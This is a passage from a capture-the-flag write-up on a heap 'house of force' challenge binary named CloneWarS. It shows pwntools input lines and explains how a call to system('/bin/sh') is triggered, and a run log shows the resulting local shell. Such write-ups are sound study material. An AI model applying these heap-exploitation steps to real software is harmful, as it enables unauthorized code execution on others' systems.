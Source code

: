 ```py
p.sendlineafter(": ", "4")
p.sendlineafter(": ", "/bin/sh")
```


The `deploy_troops` will allocate a region from the heap and give it to the `dest` variable(see the function `prepare_troppers`) and we give the data to the `buf` it will copied to the malloc region.

### Trigger the `system("/bin/sh")`

Now, we will just trigger the `cm2_dark_side` to execute the `system("/bin/sh")`.

Hence we get the shell.

Runnin the exploit:-

```r
0 [13:54:24] vagrant@oracle(oracle) house_of_force> python3 CloneWarS.py 
[+] Starting program './CloneWarS': PID 5059
[*] HEAP:     0x55ce3e979130
[*] FILE ptr: 0x55ce3d056010
[*] TOP CHUNK: 0x55ce3e979080
[*] Switching to interactive mode

What kind of troopers?: 
 [1] Build Death Star
 [2] R2D2???????
 [3] Prepare Starships
 [4] Deploy Troopers
 [5] LIGHTSABERS XDXD
 [6] Come to the dark side...
 [7] Exit

Your choice: 
File is at: 94344275386384
$ whoami
vagrant
$ 
[*] Interrupted
[*] Stopped program './CloneWarS'

```